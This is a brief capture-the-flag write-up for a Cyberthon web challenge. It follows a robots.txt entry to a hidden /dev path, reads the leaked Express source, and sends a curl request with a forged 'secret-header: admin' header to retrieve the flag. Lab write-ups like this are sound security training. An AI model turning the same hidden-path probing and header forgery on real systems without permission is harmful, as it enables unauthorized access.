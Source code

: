 ```yaml
---
created: 2024-06-11T01:33
updated: 2024-06-11T01:34
---
```


> APOCALYPSE members frequent this server but we dont know what for. Help us find out what its for.
> The URL for this challenge: http://chals.cyberthon22f.ctf.sg:40301/

`http://chals.cyberthon22f.ctf.sg:40301/robots.txt`

```
User-agent: *
Disallow:dev
```

`http://chals.cyberthon22f.ctf.sg:40301/dev` gives us the source code

```js
const path              = require('path');
const express           = require('express');
const router            = express.Router();

router.get('/', (req, res) => {
	secret = req.headers["secret-header"];
    if (secret == "admin"){
    	return res.sendFile(path.resolve('views/admin.html'));
    }
    return res.sendFile(path.resolve('views/index.html'));
});

router.get('/robots.txt', (req, res) => {
    res.type('text/plain');
    res.send("User-agent: *\nDisallow:dev");
});

router.get('/dev', (req, res) => {
	return res.sendFile(path.resolve('dev/source.zip'));
})

module.exports = router;
```

```bash
curl "http://chals.cyberthon22f.ctf.sg:40301/" \
     -H 'secret-header: admin'
```

And we get our flag

```
Cyberthon{l0w_ceiling_w4tch_ur_head_a6243746643baf3d}
```
